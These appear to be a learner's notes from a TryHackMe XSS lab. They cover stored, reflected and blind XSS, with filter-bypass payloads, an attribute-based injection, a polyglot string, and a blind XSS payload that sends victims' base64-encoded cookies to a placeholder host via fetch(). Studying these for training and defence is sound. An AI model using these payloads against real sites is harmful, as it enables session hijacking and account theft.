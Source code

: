 look for parts of the code that access certain variables that an attacker can have control over, such as "`window.location.x` parameters

unsafe JavaScript methods such as `eval()


## Persistent (Server-side) (Stored) XSS

javascript that is run when the server loads the page containing it.

>These can occur when the server does not sanitise the user data when it is ***uploaded to a page.*** 
- Comments on a blog
- User profile information      
- Website Listings


### Bypass word filter

When a word gets removed from a string, there's a helpful trick that you can try.
**Original Payload:**
`<sscriptcript>alert('THM');</sscriptcript>`

**Text to be removed (by the filter):**
`<sscriptcript>alert('THM');</sscriptcript>`

**Final Payload (after passing the filter):**
`<script>alert('THM');</script>`

### Use tag attributes to escape filters

`onload="alert('THM');`
e.g.
 `<img src="[/images/cat.jpg](view-source:https://10-10-4-57.p.thmlabs.com/images/cat.jpg)" onload="alert('THM'); ">


### Polyglot
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``
```


---


## Reflected (Client-side) XSS

javascript that is run on the client-side end of the web application. 

>These are most commonly found when the server doesn't sanitize ***search*** data. 


## Blind XSS

```javascript
// Exits Textarea 
</textarea> 
// Payload with callback to a nc listener
<script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```
- `fetch()` command makes an HTTP request.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.

---